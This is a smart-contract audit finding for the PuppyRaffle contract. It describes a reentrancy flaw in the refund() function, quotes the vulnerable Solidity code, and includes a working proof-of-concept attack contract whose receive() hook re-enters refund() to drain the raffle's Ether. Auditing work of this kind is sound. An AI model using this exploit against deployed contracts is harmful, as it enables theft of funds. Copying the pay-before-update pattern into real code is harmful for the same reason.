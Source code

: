 # PuppyRaffle_Audit_Report

## H-01.Reentrancy Vulnerability In ` refund() ` Function

### Summary

When a player calls the ` refund() ` function,there is no logic to promptly mark that the player has made a refund.



### Vulnerability Details

The vulnerability is located in the ` refund() ` function on the line 101 of the ` PuppyRaffle.sol ` file, which can cause the re-entrancy.

This is because it first send Ether to the msg.sender and then update the state of the contract.

So the attacker's contract can re-enter the ` refund() ` function before the state is updated.

```solidity
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    payable(msg.sender).sendValue(entranceFee);// @audit - the reentrancy!!!

    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```



### Proof of Concept

#### Attack Contract

```solidity
contract Exp {
    PuppyRaffle puppyRaffle;
    uint256 index;
    constructor(address addr) payable {
        puppyRaffle = PuppyRaffle(addr);
    }
    function Attack() public {
        // enter the raffle
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value : 1 ether}(players);

        // get the index of the player
        index = puppyRaffle.getActivePlayerIndex(address(this));

        // re-entrancy attack
        puppyRaffle.refund(index);
    }
    receive() external payable {
        uint256 balance = address(puppyRaffle).balance;
        if (balance > 0) {
            // re-entrancy
            puppyRaffle.refund(index);
        }
    }
}
```